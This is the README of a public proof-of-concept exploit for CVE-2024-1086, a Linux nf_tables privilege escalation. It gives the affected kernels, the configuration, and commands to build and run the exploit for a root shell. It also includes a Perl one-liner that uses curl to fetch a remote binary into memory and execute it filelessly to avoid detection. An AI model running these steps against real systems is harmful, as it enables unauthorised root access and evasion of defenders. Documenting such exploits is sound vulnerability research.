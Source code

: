 # CVE-2024-1086

Universal local privilege escalation Proof-of-Concept exploit for [CVE-2024-1086](https://nvd.nist.gov/vuln/detail/CVE-2024-1086), working on most Linux kernels between v5.14 and v6.6, including Debian, Ubuntu, and KernelCTF. The success rate is 99.4% in KernelCTF images.

https://github.com/Notselwyn/CVE-2024-1086/assets/68616630/a3d43951-94ab-4c09-a14b-07b81f89b3de

## Blogpost / Write-up

A full write-up of the exploit - including background information and loads of useful diagrams - can be found in the [Flipping Pages blogpost](https://pwning.tech/nftables/).


## Affected versions

The exploit affects versions from (including) v5.14 to (including) v6.6, excluding patched branches v5.15.149>, v6.1.76>, v6.6.15>. The patch for these versions were released in feb 2024. The underlying vulnerability affects all versions (excluding patched stable branches) from v3.15 to v6.8-rc1.

**Caveats:**
- The exploit does not work on v6.4> kernels with kconfig `CONFIG_INIT_ON_ALLOC_DEFAULT_ON=y` (including Ubuntu v6.5)
- The exploits requires user namespaces (kconfig `CONFIG_USER_NS=y`), that those user namespaces are unprivileged (sh command `sysctl kernel.unprivileged_userns_clone` = 1), and that nf_tables is enabled (kconfig `CONFIG_NF_TABLES=y`). By default, these are all enabled on Debian, Ubuntu, and KernelCTF. Other distro's have not been tested, but may work as well. Additionally, the exploit has only been tested on x64/amd64.
- The exploit may be *very* unstable on systems with a lot of network activity
	- Systems with WiFi adapter, when surrounded by high-usage WiFi networks, will be very unstable. 
	- On test devices, please turn off WiFi adapters through BIOS.
- The kernel panic (system crash) after running the exploit is a side-effect which deliberately hasn't been fixed to prevent malicious usage of the exploit (i.e. exploitation attempts should now be more noticable, and unpractical in real-world operations). Despite this, it still allows for a working proof-of-concept in lab environments, as the root shell is functional, and persistence through disk is possible.

## Usage

### Configuration

The default values should work out of the box on Debian, Ubuntu, and KernelCTF with a local shell. On non-tested setups/distros, please make sure the kconfig values match with the target kernel. These can be specified in [`src/config.h`](/src/config.h). If you are running the exploit on a machine with more than 32GiB physical memory, make sure to increase `CONFIG_PHYS_MEM`.
If you are running the exploit over SSH (into the test machine) or a reverse shell, you may want to toggle `CONFIG_REDIRECT_LOG` to `1` to avoid unnecessary network activity.

### Building

If this is impractical for you, there is an [compiled x64 binary](https://github.com/Notselwyn/CVE-2024-1086/releases/download/v1.0.0/exploit) with the default config.

```bash
git clone https://github.com/Notselwyn/CVE-2024-1086
cd CVE-2024-1086
make
```

Binary: `CVE-2024-1086/exploit`


### Running

Running the exploit is just as trivial:

```bash
./exploit
```

Fileless execution is also supported, in case of pentest situations where detections need to be avoided. However, Perl needs to be installed on the target:
```bash
perl -e '
  require qw/syscall.ph/;

  my $fd = syscall(SYS_memfd_create(), $fn, 0);
  system "curl https://example.com/exploit -s >&$fd";
  exec {"/proc/$$/fd/$fd"} "memfd";
'
```

## Disclaimer

The programs and scripts ("programs") in this software directory/folder/repository ("repository") are published, developed and distributed for educational/research purposes only. I ("the creator") do not condone any malicious or illegal usage of the programs in this repository, as the intend is sharing research and not doing illegal activities with it. I am not legally responsible for anything you do with the programs in this repository.
